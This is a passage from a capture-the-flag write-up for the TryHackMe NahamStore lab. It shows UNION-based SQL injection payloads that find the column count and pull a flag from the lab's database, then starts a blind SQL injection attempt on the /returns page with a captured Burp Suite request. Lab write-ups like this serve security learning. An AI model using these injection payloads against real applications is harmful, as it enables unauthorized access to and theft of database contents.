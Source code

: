Armed with this information, we can know that **it's using MySQL as the DBMS (Database Management System).**

**Let's test the `Union` statement:**
```sql
0 UNION SELECT 1,2,3,4,5-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a63.png)

**Found 5 columns are required.**

**According to this task's description, there are 2 tables:**

- sqli_one
- sqli_two

**And they have column name called `flag`.**

**We can just retrieve the flag!**
```sql
0 UNION SELECT NULL,flag,NULL,NULL,NULL FROM sqli_one-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a64.png)

2. Flag 2 ( blind )

In here, I was stuck at this question for a long time. **Eventually, I found that the `/return` page may vulnerable to blind SQL injection.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a65.png)

**Burp Suite:**
```
POST /returns HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3990123990120436949628345358
Content-Length: 415
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/returns
Cookie: session=fc4f6eaf7957088e0d9fe056b2e2a6c3; token=0f38267b38db8aa506f05119e72bae57
Upgrade-Insecure-Requests: 1

-----------------------------3990123990120436949628345358
Content-Disposition: form-data; name="order_number"

1
-----------------------------3990123990120436949628345358
Content-Disposition: form-data; name="return_reason"

2
-----------------------------3990123990120436949628345358
Content-Disposition: form-data; name="return_info"

test
-----------------------------3990123990120436949628345358--

```
